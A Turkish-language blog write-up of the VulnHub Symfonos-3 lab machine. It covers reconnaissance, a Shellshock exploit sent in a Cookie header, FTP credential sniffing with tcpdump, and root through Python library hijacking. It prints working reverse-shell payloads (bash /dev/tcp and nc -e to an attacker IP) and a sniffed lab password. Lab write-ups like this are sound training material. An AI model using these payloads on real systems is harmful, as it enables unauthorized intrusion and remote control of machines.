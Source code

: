 ```yaml
---
title: "VULNHUB Symfonos-3 Write Up"
date: 2020-11-10T20:17:56+03:00
draft: false
toc: true
images:
tags: [Vulnhub,write-up,shellshock,CVE-2014-6278,tcpdump,Library Hijacking] 
categories: [write-up]
author : "Barcode"
Description : "Merhaba, Bu yazımda sizlere [Vulnhub](https://www.vulnhub.com/entry/symfonos-31,332/) 'da yer alan Symfonos-3  adlı makinanın çözümünden bahsedeceğim. Keyifli okumalar..."
cover : images/vulnhub/symfonos3/cover.png
  
---
```

*Merhaba, Bu yazımda sizlere [Vulnhub](https://www.vulnhub.com/entry/symfonos-31,332/) 'da yer alan Symfonos-3  adlı makinanın çözümünden bahsedeceğim. Keyifli okumalar...*

## 1. Keşif Aşaması

Makina kalıp dosyası siteden indirildikten sonra sanallaştırma yazılımları tarafından import edilir ve çalıştırılır. DHCP servisi tarafından atanan ip adresinin tespit edilmesi için netdiscover aracı ile ağda tarama yapılır.

```bash
netdiscover -i eth1
```

{{< image src="/images/vulnhub/symfonos3/netdiscover.png" alt="Hay aksi" position="center" style="border-radius: 6px;" >}}

Nmap ile port ve servis taraması yapılır.
```bash
sudo nmap -sV -sC -p- 192.168.56.122
```
{{< image src="/images/vulnhub/symfonos3/nmap.png" alt="Hay aksi" position="center" style="border-radius: 6px;" >}}

Ftp servisi anonymous erişime açık değildir. Ayrıca servis sürümünde çalışan bir exploit bulunamamıştır. Bilgi toplama işlemine 80. porttan devam edilir.

{{< image src="/images/vulnhub/symfonos3/website.png" alt="Hay aksi" position="center" style="border-radius: 6px;" >}}

Gobuster aracı ile web dizininde tarama gerçekleştirilir.
```txt
gobuster dir -u http://192.168.56.122 -w /usr/share/wordlists/dirb/big.txt
```

{{< image src="/images/vulnhub/symfonos3/g1.png" alt="Hay aksi" position="center" style="border-radius: 6px;" >}}

*/gate* dizinine gidilir. Dizinde yapılan tarama sonucunda bir bilgi elde edilememektedir.

{{< image src="/images/vulnhub/symfonos3/website2.png" alt="Hay aksi" position="center" style="border-radius: 6px;" >}}

Keşif işlemine ***/cgi-bin*** dizini ile devam edilir. Daha büyük bir wordlist ile dizin taraması yapıldığında underworld dizini tespit edilir. 

```bash
gobuster dir -u http://192.168.56.122/cgi-bin -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
```

{{< image src="/images/vulnhub/symfonos3/g2.png" alt="Hay aksi" position="center" style="border-radius: 6px;" >}}

***/cgi-bin/underworld*** sayfasına istek atıldığında zaman bilgisi ve cpu kullanım durumunu gösteren bir sayfa görülmektedir. 

{{< image src="/images/vulnhub/symfonos3/underworld.png" alt="Hay aksi" position="center" style="border-radius: 6px;" >}}

*/cgi-bin dizinine çalışan bir uygulama olması akıllara hemen shellshock zafiyetini getirmektedir. Hemen burpsuite ile sayfa test edilir.*
```
Cookie: () { :;}; echo;echo "test"
```

{{< image src="/images/vulnhub/symfonos3/sh1.png" alt="Hay aksi" position="center" style="border-radius: 6px;" >}}

## 2. Erişim Sağlanması

Cookie ile gönderilen komutların çalıştırıldığı görülmektedir. Reverse shell bağlantısı için gerekli düzenlemeler yapılır.
```
Cookie: () { :;}; echo; /bin/bash -i >& /dev/tcp/192.168.56.105/4444 0>&1
```
{{< image src="/images/vulnhub/symfonos3/sh2.png" alt="Hay aksi" position="center" style="border-radius: 6px;" >}}
<br>
{{< image src="/images/vulnhub/symfonos3/cerberu.png" alt="Hay aksi" position="center" style="border-radius: 6px;" >}}

LinEnum betiği çalıştırılarak sistem hakkında bilgi toplanılır. İşlem sonucunda **tcpdump** aracının root yetkisi ile çalıştırılabildiği görülmektedir.

{{< image src="/images/vulnhub/symfonos3/getcap.png" alt="Hay aksi" position="center" style="border-radius: 6px;" >}}

tcpdump aracı ile loopback arayüzünde 21. porttan yapılan iletişim dinlenir. Ftp protokolü clear text olarak haberleşme sağladığından paket içeriklerini okumak kolay olmaktadır.

```txt
tcpdump -i lo -n port 21
```
```
tcpdump -i lo -n port 21
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on lo, link-type EN10MB (Ethernet), capture size 262144 bytes
13:22:01.471858 IP 127.0.0.1.33106 > 127.0.0.1.21: Flags [S], seq 3896082630, win 43690, options [mss 65495,sackOK,TS val 221098 ecr 0,nop,wscale 7], length 0
13:22:01.471873 IP 127.0.0.1.21 > 127.0.0.1.33106: Flags [S.], seq 558047581, ack 3896082631, win 43690, options [mss 65495,sackOK,TS val 221098 ecr 221098,nop,wscale 7], length 0
13:22:01.471886 IP 127.0.0.1.33106 > 127.0.0.1.21: Flags [.], ack 1, win 342, options [nop,nop,TS val 221098 ecr 221098], length 0
13:22:01.474934 IP 127.0.0.1.21 > 127.0.0.1.33106: Flags [P.], seq 1:56, ack 1, win 342, options [nop,nop,TS val 221099 ecr 221098], length 55: FTP: 220 ProFTPD 1.3.5b Server (Debian) [::ffff:127.0.0.1]
13:22:01.475029 IP 127.0.0.1.33106 > 127.0.0.1.21: Flags [.], ack 56, win 342, options [nop,nop,TS val 221099 ecr 221099], length 0
13:22:01.475380 IP 127.0.0.1.33106 > 127.0.0.1.21: Flags [P.], seq 1:13, ack 56, win 342, options [nop,nop,TS val 221099 ecr 221099], length 12: FTP: USER hades
13:22:01.475391 IP 127.0.0.1.21 > 127.0.0.1.33106: Flags [.], ack 13, win 342, options [nop,nop,TS val 221099 ecr 221099], length 0
13:22:01.476653 IP 127.0.0.1.21 > 127.0.0.1.33106: Flags [P.], seq 56:89, ack 13, win 342, options [nop,nop,TS val 221100 ecr 221099], length 33: FTP: 331 Password required for hades
13:22:01.476747 IP 127.0.0.1.33106 > 127.0.0.1.21: Flags [P.], seq 13:36, ack 89, win 342, options [nop,nop,TS val 221100 ecr 221100], length 23: FTP: PASS PTpZTfU4vxgzvRBE
13:22:01.490197 IP 127.0.0.1.21 > 127.0.0.1.33106: Flags [P.], seq 89:115, ack 36, win 342, options [nop,nop,TS val 221102 ecr 221100], length 26: FTP: 230 User hades logged in
13:22:01.490404 IP 127.0.0.1.33106 > 127.0.0.1.21: Flags [P.], seq 36:51, ack 115, win 342, options [nop,nop,TS val 221102 ecr 221102], length 15: FTP: CWD /srv/ftp/
13:22:01.491515 IP 127.0.0.1.21 > 127.0.0.1.33106: Flags [P.], seq 115:143, ack 51, win 342, options [nop,nop,TS val 221103 ecr 221102], length 28: FTP: 250 CWD command successful
13:22:01.495524 IP 127.0.0.1.33106 > 127.0.0.1.21: Flags [F.], seq 51, ack 143, win 342, options [nop,nop,TS val 221104 ecr 221103], length 0
13:22:01.495852 IP 127.0.0.1.21 > 127.0.0.1.33106: Flags [F.], seq 143, ack 52, win 342, options [nop,nop,TS val 221104 ecr 221104], length 0
13:22:01.495870 IP 127.0.0.1.33106 > 127.0.0.1.21: Flags [.], ack 144, win 342, options [nop,nop,TS val 221104 ecr 221104], length 0
```
İşlem sonucunda **hades** kullanıcısına ait hesap bilgileri elde edilir. ```PASS PTpZTfU4vxgzvRBE``` Elde edilen parola ile ssh bağlantısı sağlanır.
```
ssh hades@192.168.56.122
```
## 3. Yetki Yükseltme

Hades kullanıcısı ile LinEnum betiği çalıştırıldığında yetki yükseltme için herhangi bir bilgi elde edilemektedir. *İlk olarak hades kullanıcısına ait tüm dosyalar tespit edilir.*
```bash
cerberus@symfonos3:/home$ find / -user hades -type f 2>/dev/null
/srv/ftp/statuscheck.txt
/home/hades/.bashrc
/home/hades/.profile
/home/hades/.bash_logout
/home/hades/.wget-hsts
```
*Daha sonra hades grubunun erişime açık olan dosyalar tespit edilir.*
```bash
find / -group hades -type f 2>/dev/null
```
{{< image src="/images/vulnhub/symfonos3/hadesgr.png" alt="Hay aksi" position="center" style="border-radius: 6px;" >}}

**/opt/ftpclient** dizini altında bir python dosyası dikkat çekmektedir. İlk olarak dosya içeriğine göz atılır.

```python
import ftplib

ftp = ftplib.FTP('127.0.0.1')
ftp.login(user='hades', passwd='PTpZTfU4vxgzvRBE')

ftp.cwd('/srv/ftp/')

def upload():
    filename = '/opt/client/statuscheck.txt'
    ftp.storbinary('STOR '+filename, open(filename, 'rb'))
    ftp.quit()

upload()
```
tcpdump ile yakaladığımız trafiğe sebep olan uygulama olduğu görülmektedir. ftplib kütüphanesine kod enjeckte ederek yetki yükseltilir. *(Yetki yükseltme işlemi kütüphane dosyası root yetkisinde olmasından kaynaklıdır.)* İlk olarak kütüphanenin dizini tespit edilir.

{{< image src="/images/vulnhub/symfonos3/libsearch.png" alt="Hay aksi" position="center" style="border-radius: 6px;" >}}

***gods** grubuna üye kullanıcıların dosya üzerinde yazma yetkisi bulunmaktadır. `id` komutu ile üye olduğumuz grupları kontrol ettiğimizde hades kullanıcısının gods grubuna üye olduğu görülmektedir.*

{{< image src="/images/vulnhub/symfonos3/id.png" alt="Hay aksi" position="center" style="border-radius: 6px;" >}}

Komutlar sıra ile girilerek ftplib.py dosyası içeriği shell alacak şekilde değiştirilir.

```bash
echo "import os" > ftplib.py
echo 'os.system("/bin/nc -e /bin/bash 192.168.56.105 3333")' >> ftplib.py
```

{{< image src="/images/vulnhub/symfonos3/ftplib.png" alt="Hay aksi" position="center" style="border-radius: 6px;" >}}

Nc ile 3333 numaralı port dinlenir. Ftpclient.py dosyası çalıştırıldığında hata olmasına rağmen terminal bağlantısı sağlanır.

{{< image src="/images/vulnhub/symfonos3/run.png" alt="Hay aksi" position="center" style="border-radius: 6px;" >}}
<br>
{{< image src="/images/vulnhub/symfonos3/shell.png" alt="Hay aksi" position="center" style="border-radius: 6px;" >}}

/root dizini altında yer alan proof.txt dosyası görüntülenerek makina çözümleme işlemi tamamlanır.

{{< image src="/images/vulnhub/symfonos3/rootflag.png" alt="Hay aksi" position="center" style="border-radius: 6px;" >}}

*Umarım faydalı olmuştur. Başka bir çözümde görüşmek üzere Allah’a emanet olun…*





